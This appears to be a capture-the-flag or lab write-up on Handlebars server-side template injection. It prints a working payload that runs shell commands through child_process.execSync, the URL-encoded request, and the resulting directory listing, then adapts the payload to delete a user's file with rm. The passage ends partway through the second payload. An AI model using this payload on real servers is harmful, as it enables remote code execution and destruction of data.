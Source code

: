  search yields:
 Handlebars crash when use helpers inside tag #1157 

from:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars

    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('ls -la');"}}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}

    get:
    GET /?message={{%23with+"s"+as+|string|}}++{{%23with+"e"}}++++{{%23with+split+as+|conslist|}}++++++{{this.pop}}++++++{{this.push+(lookup+string.sub+"constructor")}}++++++{{this.pop}}++++++{{%23with+string.split+as+|codelist|}}++++++++{{this.pop}}++++++++{{this.push+"return+require('child_process').execSync('ls+-la')%3b"}}++++++++{{this.pop}}++++++++{{%23each+conslist}}++++++++++{{%23with+(string.sub.apply+0+codelist)}}++++++++++++{{this}}++++++++++{{/with}}++++++++{{/each}}++++++{{/with}}++++{{/with}}++{{/with}}{{/with}} HTTP/1.1

    response:
                e      2      [object Object]              function Function() { [native code] }        2        [object Object]                              total 24
    drwxr-xr-x 1 carlos carlos   45 Jul 25 21:28 .
    drwxr-xr-x 1 root   root     20 Jul 20 04:18 ..
    -rw-rw-r-- 1 carlos carlos  132 Jul 25 21:28 .bash_history
    -rw-r--r-- 1 carlos carlos  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 carlos carlos 3771 Feb 25  2020 .bashrc
    -rw-r--r-- 1 carlos carlos  807 Feb 25  2020 .profile
    -rw-rw-r-- 1 carlos carlos 6816 Jul 25 21:28 morale.txt

so this is handler for sure!

lets tweak the code to delete carlos:


    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}